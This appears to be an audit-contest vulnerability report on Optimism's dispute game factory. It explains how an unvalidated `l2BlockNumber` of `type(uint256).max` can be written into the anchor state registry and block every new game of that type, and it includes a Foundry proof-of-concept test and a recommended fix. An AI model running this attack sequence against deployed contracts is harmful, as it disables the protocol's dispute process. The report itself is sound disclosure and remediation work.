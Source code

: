 Noisy Pewter Woodpecker

medium

# Fault game factory can be manipulated to DOS game type using malicious `l2BlockNumber`

## Summary

All new games are proven against the most recent L2 block number in the `ANCHOR_STATE_REGISTRY`. This includes requiring that the block number we are intending to prove is greater than the latest proven block number in the registry. Due to insufficient validations of the passed L2 block number, it is possible for a user to set the latest block to `type(uint256).max`, blocking all possible future games from being initialized.

## Vulnerability Detail

New games are created for a given root claim and L2 block number using the factory, by cloning the implementation of the specified game type and passing these values as immutable args (where `_extraData` is the L2 block number).
```solidity
proxy_ = IDisputeGame(address(impl).clone(abi.encodePacked(_rootClaim, parentHash, _extraData)));
proxy_.initialize{ value: msg.value }();
```
As a part of the initialize function, we pull the latest confirmed `root` and `rootBlockNumber` from the `ANCHOR_STATE_REGISTRY`. These will be used as the "starting points" for our proof. In order to confirm they are valid starting points, we require that the L2 block number we passed is greater than the last proven root block number.
```solidity
(Hash root, uint256 rootBlockNumber) = ANCHOR_STATE_REGISTRY.anchors(GAME_TYPE);

// Should only happen if this is a new game type that hasn't been set up yet.
if (root.raw() == bytes32(0)) revert AnchorRootNotFound();

// Set the starting output root.
startingOutputRoot = OutputRoot({ l2BlockNumber: rootBlockNumber, root: root });

// Do not allow the game to be initialized if the root claim corresponds to a block at or before the
// configured starting block number.
if (l2BlockNumber() <= rootBlockNumber) revert UnexpectedRootClaim(rootClaim());
```
However, the L2 block number we pass does not appear to be sufficiently validated. If we look at the Fault Dispute Game, we can see that disputed L2 block number passed to the oracle is calculated using the `_execLeafIdx` and does not make any reference to the L2 block number passed via `extraData`:
```solidity
uint256 l2Number = startingOutputRoot.l2BlockNumber + disputedPos.traceIndex(SPLIT_DEPTH) + 1;

oracle.loadLocalData(_ident, uuid.raw(), bytes32(l2Number << 0xC0), 8, _partOffset);
```
This allows us to pass an L2 block number that is disconnected from the proof being provided.

After the claim is resolved, we update the `ANCHOR_STATE_REGISTRY` to include our new root by calling `tryUpdateAnchorState()`.
```solidity
function tryUpdateAnchorState() external {
    // Grab the game and game data.
    IFaultDisputeGame game = IFaultDisputeGame(msg.sender);
    (GameType gameType, Claim rootClaim, bytes memory extraData) = game.gameData();

    // Grab the verified address of the game based on the game data.
    // slither-disable-next-line unused-return
    (IDisputeGame factoryRegisteredGame,) =
        DISPUTE_GAME_FACTORY.games({ _gameType: gameType, _rootClaim: rootClaim, _extraData: extraData });

    // Must be a valid game.
    require(
        address(factoryRegisteredGame) == address(game),
        "AnchorStateRegistry: fault dispute game not registered with factory"
    );

    // No need to update anything if the anchor state is already newer.
    if (game.l2BlockNumber() <= anchors[gameType].l2BlockNumber) {
        return;
    }

    // Must be a game that resolved in favor of the state.
    if (game.status() != GameStatus.DEFENDER_WINS) {
        return;
    }

    // Actually update the anchor state.
    anchors[gameType] = OutputRoot({ l2BlockNumber: game.l2BlockNumber(), root: Hash.wrap(game.rootClaim().raw()) });
}
```
As long as the L2 block number we passed is greater than the last proven one, we update it with our new root. This allows us to set the `ANCHOR_STATE_REGISTRY` to contain an arbitrarily high `blockRootNumber`.

If we were to pass `type(uint256).max` as this value, it would be set in the `anchors` mapping, and would cause all other games to fail to initialize, because there is no value they could pass for the L2 block number that would be greater, and would therefore fail the check described above.

## Proof of Concept

The following test can be dropped into `DisputeGameFactory.t.sol` to demonstrate the vulnerability:
```solidity
function testZach_DOSWithMaxBlockNumber(uint256 newBlockNum) public {
    // propose a root with a block number of max uint256
    bytes memory maxBlock = abi.encode(type(uint256).max);
    IDisputeGame game = disputeGameFactory.create(GameType.wrap(0), Claim.wrap(bytes32(uint(1))), maxBlock);
    assertEq(game.l2BlockNumber(), type(uint256).max);

    // when the game passes, it's saved in the anchor registry
    vm.warp(block.timestamp + 4 days);
    game.resolveClaim(0);
    game.resolve();

    // now we can fuzz newly proposed block numbers, and all fail for the same reason
    bytes memory maxBlock2 = abi.encode(newBlockNum);
    vm.expectRevert(abi.encodeWithSelector(UnexpectedRootClaim.selector, 1));
    disputeGameFactory.create(GameType.wrap(0), Claim.wrap(bytes32(uint(1))), maxBlock2);
}
```

## Impact

For no cost, the factory can be DOS'd from creating new games of a given type.

## Code Snippet

https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L528-L539

https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/AnchorStateRegistry.sol#L59-L87

## Tool used

Manual Review

## Recommendation

In order to ensure that ordering does not need to be preserved, `ANCHOR_STATE_REGISTRY` should store a mapping of claims to booleans. This would allow users to prove against any proven state, instead of being restricted to proving against the latest state, which could be manipulated.
